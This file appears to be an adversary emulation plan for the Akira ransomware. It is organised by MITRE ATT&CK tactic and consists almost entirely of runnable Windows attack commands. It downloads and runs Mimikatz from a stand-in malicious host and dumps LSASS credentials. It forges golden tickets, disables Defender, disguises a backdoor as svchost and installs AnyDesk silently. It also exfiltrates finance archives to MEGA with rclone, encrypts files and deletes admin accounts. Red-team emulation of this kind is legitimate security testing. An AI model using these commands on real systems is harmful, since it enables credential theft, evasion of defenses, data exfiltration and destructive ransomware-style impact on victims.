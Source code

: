 # Akira Ransomware Emulation Plan

## Initial Access (TA0001)

# T1133 - External Remote Services (VPN compromise)

# T1078 - Valid Accounts (RDP with stolen creds)
xfreerdp /v:10.0.0.100 /u:admin /p:'P@ssw0rd!' +drive:/tmp/share +clipboard /dynamic-resolution


## Execution (TA0002)

# T1059.001 - PowerShell (Credential harvesting)
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"


## Persistence (TA0003)

# T1219 - Remote Access Software (AnyDesk install)
curl -o AnyDeskSetup.exe https://download.anydesk.com/AnyDesk.exe && AnyDeskSetup.exe --install C:\ProgramData\AnyDesk --silent --start-with-win


## Privilege Escalation (TA0004)

# T1558 - Kerberos Ticket Theft (Mimikatz)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-123456789 /krbtgt:a1b2c3d4e5f6g7h8 /ptt" exit


## Defense Evasion (TA0005)

# T1562.001 - Disable Windows Defender
powershell -exec bypass -c "Set-MpPreference -DisableRealtimeMonitoring \$true; Set-MpPreference -DisableIOAVProtection \$true"

# T1036.005 - Masquerading (System32 mimic)
copy C:\malware\backdoor.exe C:\Windows\System32\svchost.exe /y


## Credential Access (TA0006)

# T1003.001 - LSASS Dumping (Procdump)
procdump.exe -accepteula -ma lsass.exe lsass.dmp


## Discovery (TA0007)

# T1482 - Domain Trust Discovery
nltest /domain_trusts /all_trusts

# T1018 - Remote System Discovery
for /l %i in (1,1,254) do @ping -n 1 -w 100 10.0.0.%i | find "Reply" 


## Lateral Movement (TA0008)

# T1021.001 - RDP Lateral Movement
cmdkey /generic:TERMSRV/10.0.1.100 /user:DOMAIN\Admin /pass:P@ssw0rd! && mstsc /v:10.0.1.100


## Collection (TA0009)

# T1213.002 - SharePoint Data Collection
powershell -c "(New-Object Net.WebClient).DownloadFile('https://sharepoint.corp.com/Shared%20Documents/secret.docx', 'C:\Temp\secret.docx')"


## Exfiltration (TA0010)

# T1560.001 - Archive with WinRAR
"C:\Program Files\WinRAR\Rar.exe" a -hpP@ssw0rd -r -m5 C:\exfil\finance.rar C:\Finance\*

# T1567.002 - Rclone Exfiltration
rclone copy C:\exfil\finance.rar mega:exfil/Akira_Operation -v --config=rclone.conf


## Impact (TA0040)

# T1486 - File Encryption (Akira ransomware)
akira.exe --encrypt --path C:\ --extensions ".doc,.pdf,.xls" --key RSA_PUBLIC_KEY

# T1531 - Account Deletion
net user Administrator /delete && net user BackupAdmin /delete
